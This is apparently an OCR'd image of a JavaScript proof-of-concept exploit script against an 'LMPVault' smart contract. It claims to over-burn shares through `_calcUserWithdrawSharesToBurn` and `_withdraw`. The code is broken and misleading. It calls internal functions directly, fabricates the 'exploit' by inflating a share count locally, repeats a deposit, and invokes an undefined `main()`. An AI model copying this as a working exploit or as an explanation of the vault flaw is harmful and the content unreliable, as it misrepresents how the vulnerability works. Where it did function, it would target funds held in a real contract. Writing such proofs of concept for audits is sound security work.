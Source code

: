 ```javascript
    await lmpVault.deposit(ethers.utils.parseEther("500"), {from: owner.address});

// Manipulating the state to exploit the vulnerability
// Here, we need to set up the state such that `_calcUserWithdrawSharesToBurn` causes the issue.
// This will involve manipulating various parameters and states within the contracts involved.
// Specifically, we need to carefully adjust parameters like `destinationInfo`, `totalVaultShares`, and more.
// The goal is to create a scenario where `sharesToBurn` and `totalDebtBurn` values cause the issue.
// Note: The exact state manipulation steps are complex and may require a deep understanding of the contract logic.
// The following steps provide a high-level overview:

// 1. Deposit assets into the LMPVault and multiple IDestinationVaults.
// 2. Set up parameters for the withdrawal process:
//    - Ensure there's a mix of assets in the idle state and within destination vaults.
//    - Set `userShares` and `maxAssetsToPull` in a way that would cause an imbalance.
//    - Modify `destinationInfo` for each vault to control the calculation.
// 3. Calculate `sharesToBurn` and `totalDebtBurn` using `_calcUserWithdrawSharesToBurn`.
// 4. Adjust the calculations to result in `sharesToBurn` that exceeds `userShares`.
// 5. Trigger the `_withdraw` function, exploiting the vulnerability.

// 1. Deposit assets into LMPVault and IDestinationVaults
await erc20.approve(lmpVault.address, ethers.utils.parseEther("1000"));
console.log("Depositing assets to LMPVault...");
await lmpVault.deposit(ethers.utils.parseEther("500"), {from: owner.address});
const vaultBalanceAfterDeposit = await erc20.balanceOf(lmpVault.address);
console.log("LMPVault balance after deposit:", ethers.utils.formatEther(vaultBalanceAfterDeposit));

// 2. Set up withdrawal parameters for manipulation
const userShares = await lmpVault.balanceOf(owner.address);
const maxAssetsToPull = ethers.utils.parseEther("500"); // Chosen value for exploitation

const totalVaultShares = await lmpVault.totalSupply();

// 3. Calculate shares to burn and total debt burn
const { sharesToBurn, totalDebtBurn } = await lmpVault._calcUserWithdrawSharesToBurn(
   mockVault1, userShares, maxAssetsToPull, totalVaultShares
    );

// 4. Manipulate the calculations to exceed user shares
const manipulatedSharesToBurn = userShares.add(sharesToBurn.mul(2)); // Deliberate overburn

// 5. Exploit the vulnerability
const returnedAssets = await lmpVault._withdraw(
    maxAssetsToPull, manipulatedSharesToBurn, user1.address, owner.address
);

console.log("Returned assets:", returnedAssets.toString());

main()
    .then(() => process.exit(0))
    .catch(error => {
        console.error(error);
        process.exit(1);
    });
```
